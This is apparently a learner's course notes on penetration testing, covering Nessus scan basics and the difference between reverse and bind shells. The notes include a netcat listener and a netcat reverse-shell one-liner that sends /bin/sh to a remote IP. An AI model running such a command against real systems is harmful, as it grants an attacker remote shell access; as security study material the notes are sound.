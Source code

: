 ## Day 20/365

*note that notes for this course start with module 11, which is basically the middle-part of the course, I've previously went over the modules before this one some time ago and I'm now coming back to the course after building up better fundamentals, I strongly recommend this if you feel like the course becomes too complicated or you feel you're not learning enough*

Nessus can scan private addresses, up to 16 at a time (no websites or external hosts)

scans can be scheduled and adjusted for periods (yearly weekly etc)

![2. Source Material/Career/Images/Pasted image 20250221215021.png](../../../../7.%20Images/Pasted%20image%2020250221215021%201.png)
*Nessus view*

![2. Source Material/Career/Images/Pasted image 20250221215106.png](../../../../7.%20Images/Pasted%20image%2020250221215106%201.png)
*finished scan example*

---

## Exploitation Basics

### Reverse Shells vs Bind Shells

![2. Source Material/Career/Images/Pasted image 20250221215307.png](../../../../7.%20Images/Pasted%20image%2020250221215307%201.png)
*Most common Shell (Netcat)*

Used 95% of the time

A shell is access to a machine (pop a shell = get access)

Reverse Shell = a victim connects to us, we're gonna listen

nc -lvp 4444  = listening to port 4444

nc 192.168.1.1 4444 -e /bin/sh = I wanna connect to this IP and when I do that I'm gonna establish this bin shell

![2. Source Material/Career/Images/Pasted image 20250221215544.png](../../../../7.%20Images/Pasted%20image%2020250221215544%201.png)
*Bind Shell view*

Bind Shell = we open a port on the machine and then we connect to it, we fire of an exploit and that opens up a port

usually an external assesment

![[Pasted image 20250221220819.png]]
*Reverse Shell example, left side attacker, right side victim*

